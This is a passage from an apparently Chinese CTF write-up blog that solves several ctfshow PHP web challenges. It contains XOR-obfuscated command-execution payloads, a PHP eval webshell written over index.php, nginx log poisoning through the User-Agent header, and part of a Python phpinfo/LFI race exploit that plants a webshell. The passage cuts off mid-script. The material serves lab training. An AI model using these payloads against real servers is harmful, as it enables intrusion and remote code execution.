<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_">#</span><span class="language-bash">win11的git窗口就是下面这种，别误会哈。</span></span><br><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">php web141.php</span></span><br><span class="line">Please give me the key string: phpinfo</span><br><span class="line">value: %8A%92%8A%93%94%9C%95^%fa%fa%fa%fa%fa%fa%fa</span><br><span class="line">Please give me the key string: system</span><br><span class="line">value: %89%83%89%8E%9F%97^%fa%fa%fa%fa%fa%fa</span><br><span class="line">Please give me the key string: ls</span><br><span class="line">value: %96%89^%fa%fa</span><br><span class="line">Please give me the key string: highlight_file</span><br><span class="line">value: %92%93%9D%92%96%93%9D%92%8E%A5%9C%93%96%9F^%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa</span><br><span class="line">Please give me the key string: flag.php</span><br><span class="line">value: %9C%96%9B%9D%D4%8A%92%8A^%fa%fa%fa%fa%fa%fa%fa%fa</span><br><span class="line">Please give me the key string:</span><br></pre></td></tr></table></figure>

<p>把这些东西实际的代入到网站传参当中：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="comment"># phpinfo();</span></span><br><span class="line">get: ?code=(<span class="string">&quot;%8A%92%8A%93%94%9C%95&quot;</span>^<span class="string">&quot;%fa%fa%fa%fa%fa%fa%fa&quot;</span>)();</span><br><span class="line"><span class="built_in">return</span>: 正确的返回PHPinfo的内容。</span><br><span class="line"><span class="comment"># system(&#x27;ls&#x27;);</span></span><br><span class="line">get: ?code=(<span class="string">&quot;%89%83%89%8E%9F%97&quot;</span>^<span class="string">&quot;%fa%fa%fa%fa%fa%fa&quot;</span>)(<span class="string">&quot;%96%89&quot;</span>^<span class="string">&quot;%fa%fa&quot;</span>);</span><br><span class="line"><span class="built_in">return</span>: index.php flag.php</span><br><span class="line"><span class="comment"># highlight_file(&quot;flag.php&quot;)</span></span><br><span class="line">get: ?code=(<span class="string">&quot;%92%93%9D%92%96%93%9D%92%8E%A5%9C%93%96%9F&quot;</span>^<span class="string">&quot;%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa&quot;</span>)(<span class="string">&quot;%9C%96%9B%9D%D4%8A%92%8A&quot;</span>^<span class="string">&quot;%fa%fa%fa%fa%fa%fa%fa%fa&quot;</span>);</span><br><span class="line"><span class="built_in">return</span>: 返回flag文件的内容，得到flag</span><br></pre></td></tr></table></figure>

<h2 id="官方WP"><a href="#官方WP" class="headerlink" title="官方WP"></a>官方WP</h2><figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_">#</span><span class="language-bash">payload</span> </span><br><span class="line">?code=(&quot;%0c%19%0c%5c%60%60&quot;^&quot;%7f%60%7f%28%05%0d&quot;)(&quot;%09%01%03%01%06%02&quot;^&quot;%7d%60%60%21%60%28&quot;); </span><br><span class="line">预期解是使用中文 </span><br><span class="line">?code=$哈=&quot;&#123;&#123;&#123;&quot;^&quot;?&lt;&gt;/&quot;;$&#123;$哈&#125;[哼]($&#123;$哈&#125;[嗯]);&amp;哼=system&amp;嗯=tac f* &quot;&#123;&#123;&#123;&quot;^&quot;?&lt;&gt;/&quot;; </span><br><span class="line">异或出来的结果是 _GET</span><br></pre></td></tr></table></figure>

<p>三个大括号的骚姿势官方视频也没有讲:face_with_thermometer: 顶不住顶不住……后面再查资料吧。</p>
<h1 id="web149"><a href="#web149" class="headerlink" title="web149"></a>web149</h1><h2 id="原始信息-58"><a href="#原始信息-58" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"></span><br><span class="line"><span class="variable">$files</span> = <span class="title function_ invoke__">scandir</span>(<span class="string">&#x27;./&#x27;</span>); </span><br><span class="line"><span class="keyword">foreach</span>(<span class="variable">$files</span> <span class="keyword">as</span> <span class="variable">$file</span>) &#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_file</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span> (<span class="variable">$file</span> !== <span class="string">&quot;index.php&quot;</span>) &#123;</span><br><span class="line">            <span class="title function_ invoke__">unlink</span>(<span class="variable">$file</span>);</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;ctf&#x27;</span>], <span class="variable">$_POST</span>[<span class="string">&#x27;show&#x27;</span>]);</span><br><span class="line"></span><br><span class="line"><span class="variable">$files</span> = <span class="title function_ invoke__">scandir</span>(<span class="string">&#x27;./&#x27;</span>); </span><br><span class="line"><span class="keyword">foreach</span>(<span class="variable">$files</span> <span class="keyword">as</span> <span class="variable">$file</span>) &#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_file</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span> (<span class="variable">$file</span> !== <span class="string">&quot;index.php&quot;</span>) &#123;</span><br><span class="line">            <span class="title function_ invoke__">unlink</span>(<span class="variable">$file</span>);</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-55"><a href="#解题-55" class="headerlink" title="解题"></a>解题</h2><p>读懂这段代码的时候，作为一个会写脚本的小子说实在有点傻眼，但猜到这应该是新题型后就释然了。</p>
<p>全程其实有用的有且只有一句话：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;ctf&#x27;</span>], <span class="variable">$_POST</span>[<span class="string">&#x27;show&#x27;</span>]);</span><br></pre></td></tr></table></figure>

<p>其他部分的内容传递的只有一句话：如果当前文件夹下有任何不是名为index.php的文件，就立刻马上删除掉。</p>
<p>既然如此，那么只能覆盖掉index.php的内容了。</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_"># </span><span class="language-bash">第一阶段，直接覆盖：</span></span><br><span class="line">Get： ?ctf=index.php</span><br><span class="line">Post: show=&lt;?php eval($_POST[1])?&gt;</span><br><span class="line"><span class="meta prompt_"></span></span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">第二阶段，读取文件读取flag：</span></span><br><span class="line">Post: 1=system(&#x27;ls /&#x27;);</span><br><span class="line">bin ctfshow_fl0g_here.txt dev etc home lib media mnt opt proc root run sbin srv sys tmp usr var </span><br><span class="line"></span><br><span class="line">Post: 1=system(&#x27;cat /ctfshow_fl0g_here.txt&#x27;);</span><br><span class="line">ctfshow&#123;118b5b79-6d03-4f36-b170-db143609c12e&#125; </span><br></pre></td></tr></table></figure>

<h1 id="web150"><a href="#web150" class="headerlink" title="web150"></a>web150</h1><h2 id="原始信息-59"><a href="#原始信息-59" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">CTFSHOW</span></span>&#123;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$username</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$password</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$vip</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$secret</span>;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="variable language_">$this</span>-&gt;vip = <span class="number">0</span>;</span><br><span class="line">        <span class="variable language_">$this</span>-&gt;secret = <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable language_">$this</span>-&gt;secret;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">isVIP</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="variable language_">$this</span>-&gt;vip?<span class="literal">TRUE</span>:<span class="literal">FALSE</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__autoload</span>(<span class="params"><span class="variable">$class</span></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$class</span>))&#123;</span><br><span class="line">            <span class="variable">$class</span>();</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">#过滤字符</span></span><br><span class="line"><span class="variable">$key</span> = <span class="variable">$_SERVER</span>[<span class="string">&#x27;QUERY_STRING&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\_| |\[|\]|\?/&#x27;</span>, <span class="variable">$key</span>))&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;error&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="variable">$ctf</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;ctf&#x27;</span>];</span><br><span class="line"><span class="comment"># 将GET数组转换为对应的变量</span></span><br><span class="line"><span class="title function_ invoke__">extract</span>(<span class="variable">$_GET</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">class_exists</span>(<span class="variable">$__CTFSHOW__</span>))&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;class is exists!&quot;</span>;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$isVIP</span> &amp;&amp; <span class="title function_ invoke__">strrpos</span>(<span class="variable">$ctf</span>, <span class="string">&quot;:&quot;</span>)===<span class="literal">FALSE</span>)&#123;</span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$ctf</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<h2 id="解题-56"><a href="#解题-56" class="headerlink" title="解题"></a>解题</h2><p>这里仅分析最核心的部分，不做全代码分析，节省代码审计时间：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 获取get传输过来还没解析的字符串，形如：a=1&amp;b=2</span></span><br><span class="line"><span class="variable">$key</span> = <span class="variable">$_SERVER</span>[<span class="string">&#x27;QUERY_STRING&#x27;</span>];</span><br><span class="line"><span class="comment"># 正则表达式匹配，不合法就强制退出</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\_| |\[|\]|\?/&#x27;</span>, <span class="variable">$key</span>))&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;error&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="variable">$ctf</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;ctf&#x27;</span>];</span><br><span class="line"><span class="comment"># 将GET数组对应的键值对转换为对应的变量名和变量值</span></span><br><span class="line"><span class="title function_ invoke__">extract</span>(<span class="variable">$_GET</span>);</span><br><span class="line"><span class="comment"># 检测有没有这个类，但仅仅是输出而已。</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">class_exists</span>(<span class="variable">$__CTFSHOW__</span>))&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;class is exists!&quot;</span>;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment"># 最关键部分，第一个参数为非负数字符串即可</span></span><br><span class="line"><span class="comment"># 第二个参数，就是不能出现 &quot;:&quot; 的意思</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$isVIP</span> &amp;&amp; <span class="title function_ invoke__">strrpos</span>(<span class="variable">$ctf</span>, <span class="string">&quot;:&quot;</span>)===<span class="literal">FALSE</span>)&#123;</span><br><span class="line">    <span class="comment"># 符合条件后把ctf作为文件进行导入</span></span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$ctf</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>个人愚见，伪协议是必须依赖一个关键符号 <code>&quot;:&quot;</code> 才能顶得住的，如果不存在则应是直接不支持伪协议。</p>
<p>这里尝试导入了下 <code>/etc/passwd</code> 成功导入文件内容，尝试着去搞文件包含漏洞。</p>
<p>这里因为get数组会解析为变量， <code>$isVIP</code> 通过这种方式传个1进去即可。第二个参数则需要考虑环境。</p>
<p>这里分析下得到的 <code>/etc/passwd</code> 文件的内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">root:x:0:0:root:/root:/bin/ash</span><br><span class="line">...#中间部分省略，重点看末尾#....</span><br><span class="line">nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin</span><br></pre></td></tr></table></figure>

<p>中间件支持是nginx而不是Apache，可以尝试利用NGINX的日志包含去写入一句话木马进行控制：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">GET: ?isVIP=1</span><br><span class="line">User-Agent: &lt;?=<span class="built_in">eval</span>(<span class="variable">$_POST</span>[1]);?&gt;</span><br><span class="line">POST: ctf==/var/log/nginx/access.log&amp;1=var_dump(<span class="variable">$GLOBALS</span>);</span><br></pre></td></tr></table></figure>

<p>观察题目可以得出，flag这个变量已经被读取到了PHP环境当中，只需要调用 <code>$GLOBALS</code> 读取出来即可。</p>
<p>或者有需要读取源文件的可以改一下参数的内容：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GET: ?isVIP=1</span><br><span class="line">User-Agent: &lt;?=eval($_POST[1]);?&gt;</span><br><span class="line">ctf=/var/log/nginx/access.log&amp;1=show_source(&#x27;flag.php&#x27;);</span><br></pre></td></tr></table></figure>

<p>UA这种东西最好在BP加进去。</p>
<h2 id="官方WP-1"><a href="#官方WP-1" class="headerlink" title="官方WP"></a>官方WP</h2><p>文件包含非预期绕过</p>
<h1 id="web150-plus"><a href="#web150-plus" class="headerlink" title="web150 plus"></a>web150 plus</h1><h2 id="原始信息-60"><a href="#原始信息-60" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">CTFSHOW</span></span>&#123;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$username</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$password</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$vip</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$secret</span>;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="variable language_">$this</span>-&gt;vip = <span class="number">0</span>;</span><br><span class="line">        <span class="variable language_">$this</span>-&gt;secret = <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable language_">$this</span>-&gt;secret;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">isVIP</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="variable language_">$this</span>-&gt;vip?<span class="literal">TRUE</span>:<span class="literal">FALSE</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__autoload</span>(<span class="params"><span class="variable">$class</span></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$class</span>))&#123;</span><br><span class="line">            <span class="variable">$class</span>();</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">#过滤字符</span></span><br><span class="line"><span class="variable">$key</span> = <span class="variable">$_SERVER</span>[<span class="string">&#x27;QUERY_STRING&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\_| |\[|\]|\?/&#x27;</span>, <span class="variable">$key</span>))&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;error&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="variable">$ctf</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;ctf&#x27;</span>];</span><br><span class="line"><span class="title function_ invoke__">extract</span>(<span class="variable">$_GET</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">class_exists</span>(<span class="variable">$__CTFSHOW__</span>))&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;class is exists!&quot;</span>;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$isVIP</span> &amp;&amp; <span class="title function_ invoke__">strrpos</span>(<span class="variable">$ctf</span>, <span class="string">&quot;:&quot;</span>)===<span class="literal">FALSE</span> &amp;&amp; <span class="title function_ invoke__">strrpos</span>(<span class="variable">$ctf</span>,<span class="string">&quot;log&quot;</span>)===<span class="literal">FALSE</span>)&#123;</span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$ctf</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-amp-官方WP"><a href="#解题-amp-官方WP" class="headerlink" title="解题&amp;官方WP"></a>解题&amp;官方WP</h2><p>这次加盾有点严密，因为这其中有一部分是直接从配置文件当中修改的，限制了对 <code>etc</code> 目录的访问，限制了前一题的日志文件包含漏洞，导致整体思路无法单纯的靠后面的文件包含输出。</p>
<p>这里引用官方的思路，解析下class类：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">CTFSHOW</span></span>&#123;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$username</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$password</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$vip</span>;</span><br><span class="line">    <span class="keyword">private</span> <span class="variable">$secret</span>;</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 初始化</span></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="variable language_">$this</span>-&gt;vip = <span class="number">0</span>;</span><br><span class="line">        <span class="variable language_">$this</span>-&gt;secret = <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 退出时</span></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable language_">$this</span>-&gt;secret;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 纯公共的返回布尔值的函数</span></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">isVIP</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="variable language_">$this</span>-&gt;vip?<span class="literal">TRUE</span>:<span class="literal">FALSE</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">	<span class="comment"># 自动加载类</span></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__autoload</span>(<span class="params"><span class="variable">$class</span></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$class</span>))&#123;</span><br><span class="line">            <span class="variable">$class</span>();</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>官方给出的信息如下：</p>
<blockquote>
<figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="line">这个题一点点小坑__autoload()函数不是类里面的</span><br><span class="line">__autoload — 尝试加载未定义的类</span><br><span class="line">最后构造?..CTFSHOW..=phpinfo就可以看到phpinfo信息啦</span><br><span class="line">原因是..CTFSHOW..解析变量成__CTFSHOW__然后进行了变量覆盖，因为CTFSHOW是类就会使用</span><br><span class="line">__autoload()函数方法，去加载，因为等于phpinfo就会去加载phpinfo</span><br><span class="line">接下来就去getshell啦</span><br></pre></td></tr></table></figure>
</blockquote>
<p>从中我们得出了一个结论：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">__autoload <span class="comment"># 尝试加载未定义的类，可以用来加载phpinfo</span></span><br><span class="line">    <span class="comment">//资料链接：https://www.cnblogs.com/nice0e3/p/15383699.html</span></span><br><span class="line">    资料原文如下</span><br><span class="line">    https:<span class="comment">//blog.csdn.net/xiantianga6883/article/details/108378695</span></span><br><span class="line"></span><br><span class="line">	在实际项目中，不可能把所有的类都写在一个 PHP 文件中，</span><br><span class="line">    当在一个 PHP 文件中需要调用另一个文件中声明的类时，就需要通过 <span class="keyword">include</span> 把这个文件引入。</span><br><span class="line">    不过有的时候，在文件众多的项目中，要一一将所需类的文件都 <span class="keyword">include</span> 进来，</span><br><span class="line">	一个很大的烦恼是不得不在每个类文件开头写一个长长的包含文件的列表。</span><br><span class="line">	我们能不能在用到什么类的时候，再把这个类所在的 php 文件导入呢？</span><br><span class="line"></span><br><span class="line">	为此，PHP 提供了 <span class="title function_ invoke__">__autoload</span>() 方法，它会在试图使用尚未被定义的类时自动调用。</span><br><span class="line">    通过调用此函数，脚本引擎在 PHP 出错失败前有了最后一个机会加载所需的类。</span><br><span class="line"></span><br><span class="line">	<span class="title function_ invoke__">__autoload</span>() 方法接收的一个参数，就是欲加载的类的类名，</span><br><span class="line">        所以这时候需要类名与文件名对应，</span><br><span class="line">        如 Person.php ，对应的类名就是 Pserson 。</span><br><span class="line">    </span><br></pre></td></tr></table></figure>

<p>变量解析漏洞：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">#php v5.6.40</span></span><br><span class="line"><span class="comment"># ..CTFSHOW.. ==解析为==&gt; __CTFSHOW__</span></span><br></pre></td></tr></table></figure>

<p>真正的WP是这样的：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET: ?..CTFSHOW..=phpinfo</span><br><span class="line"><span class="comment"># 然后在其中找出flag变量的值即可得到flag</span></span><br></pre></td></tr></table></figure>

<p>相关链接以及exp：</p>
<p><a target="_blank" rel="noopener" href="https://juejin.cn/post/7016944635851309070">https://juejin.cn/post/7016944635851309070</a></p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/python</span></span><br><span class="line"><span class="keyword">import</span> sys</span><br><span class="line"><span class="keyword">import</span> threading</span><br><span class="line"><span class="keyword">import</span> socket</span><br><span class="line"></span><br><span class="line">attempts_counter = <span class="number">0</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">setup</span>(<span class="params">host, port, phpinfo_path, lfi_path, lfi_param, shell_code=<span class="string">&#x27;&lt;?php eval($_POST[&quot;mb&quot;]);?&gt;&#x27;</span>, shell_path=<span class="string">&#x27;/tmp/g&#x27;</span></span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    根据提供参数返回请求内容</span></span><br><span class="line"><span class="string">    :param host:HOST</span></span><br><span class="line"><span class="string">    :param port:端口</span></span><br><span class="line"><span class="string">    :param phpinfo_path: phpinfo文件地址</span></span><br><span class="line"><span class="string">    :param lfi_path: 包含lfi的文件地址</span></span><br><span class="line"><span class="string">    :param lfi_param: lfi载入文件时, 指定文件名的参数</span></span><br><span class="line"><span class="string">    :param shell_code: shell代码</span></span><br><span class="line"><span class="string">    :param shell_path: shell代码保存位置</span></span><br><span class="line"><span class="string">    :return:</span></span><br><span class="line"><span class="string">        phpinfo_request: phpinfo 请求内容</span></span><br><span class="line"><span class="string">        lfi_request: lfi 请求内容</span></span><br><span class="line"><span class="string">        tag: 标识内容</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    tag = <span class="string">&#x27;Security Test&#x27;</span>   <span class="comment"># 搜索验证标识</span></span><br><span class="line">    payload = \</span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;&#123;tag&#125;\r</span></span><br><span class="line"><span class="string">&lt;?php $c=fopen(&#x27;&#123;shell_path&#125;&#x27;,&#x27;w&#x27;);fwrite($c,&#x27;&#123;shell_code&#125;&#x27;);?&gt;\r</span></span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;</span>.<span class="built_in">format</span>(shell_code=shell_code, tag=tag, shell_path=shell_path)</span><br><span class="line"></span><br><span class="line">    request_data = \</span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;-----------------------------7dbff1ded0714\r</span></span><br><span class="line"><span class="string">Content-Disposition: form-data; name=&quot;dummyname&quot;; filename=&quot;test.txt&quot;\r</span></span><br><span class="line"><span class="string">Content-Type: text/plain\r</span></span><br><span class="line"><span class="string">\r</span></span><br><span class="line"><span class="string">&#123;payload&#125;</span></span><br><span class="line"><span class="string">-----------------------------7dbff1ded0714--\r</span></span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;</span> .<span class="built_in">format</span>(payload=payload)</span><br><span class="line"></span><br><span class="line">    phpinfo_request = \</span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;POST &#123;phpinfo_path&#125;?%5f%5fCTFSHOW%5f%5f=phpinfo&amp;a=&#123;padding&#125; HTTP/1.1\r</span></span><br><span class="line"><span class="string">Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=&#123;padding&#125;\r</span></span><br><span class="line"><span class="string">HTTP_ACCEPT: &#123;padding&#125;\r</span></span><br><span class="line"><span class="string">HTTP_USER_AGENT: &#123;padding&#125;\r</span></span><br><span class="line"><span class="string">HTTP_ACCEPT_LANGUAGE: &#123;padding&#125;\r</span></span><br><span class="line"><span class="string">HTTP_PRAGMA: &#123;padding&#125;\r</span></span><br><span class="line"><span class="string">Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r</span></span><br><span class="line"><span class="string">Content-Length: &#123;request_data_length&#125;\r</span></span><br><span class="line"><span class="string">Host: &#123;host&#125;:&#123;port&#125;\r</span></span><br><span class="line"><span class="string">\r</span></span><br><span class="line"><span class="string">&#123;request_data&#125;</span></span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;</span>.<span class="built_in">format</span>(</span><br><span class="line">    padding=<span class="string">&#x27;A&#x27;</span> * <span class="number">4000</span>,</span><br><span class="line">    phpinfo_path=phpinfo_path,</span><br><span class="line">    request_data_length=<span class="built_in">len</span>(request_data),</span><br><span class="line">    host=host,</span><br><span class="line">    port=port,</span><br><span class="line">    request_data=request_data</span><br><span class="line">    )</span><br><span class="line"></span><br><span class="line">    lfi_request = \</span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;POST &#123;lfi_path&#125;?&#123;lfi_param&#125; HTTP/1.1\r</span></span><br><span class="line"><span class="string">User-Agent: Mozilla/4.0\r</span></span><br><span class="line"><span class="string">Proxy-Connection: Keep-Alive\r</span></span><br><span class="line"><span class="string">Host: &#123;host&#125;\r</span></span><br><span class="line"><span class="string">Content-Type: application/x-www-form-urlencoded\r</span></span><br><span class="line"><span class="string">\r</span></span><br><span class="line"><span class="string">ctf=&#123;&#123;&#125;&#125;\r</span></span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;</span>.<span class="built_in">format</span>(</span><br><span class="line">    lfi_path=lfi_path,</span><br><span class="line">    lfi_param=lfi_param,</span><br><span class="line">    host=host</span><br><span class="line">    )</span><br><span class="line">    <span class="keyword">return</span> phpinfo_request, tag, lfi_request</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">phpinfo_lfi</span>(<span class="params">host, port, phpinfo_request, offset, lfi_request, tag</span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    通过向phpinfo发送大数据包延缓时间, 然后利用lfi执行</span></span><br><span class="line"><span class="string">    :param host:HOST</span></span><br><span class="line"><span class="string">    :param port:端口</span></span><br><span class="line"><span class="string">    :param phpinfo_request: phpinfo页面请求内容</span></span><br><span class="line"><span class="string">    :param offset: tmp_name在phpinfo中的偏移位</span></span><br><span class="line"><span class="string">    :param lfi_request: lfi页面请求内容</span></span><br><span class="line"><span class="string">    :param tag: 标识内容</span></span><br><span class="line"><span class="string">    :return:</span></span><br><span class="line"><span class="string">        tmp_file_name: 临时文件名</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    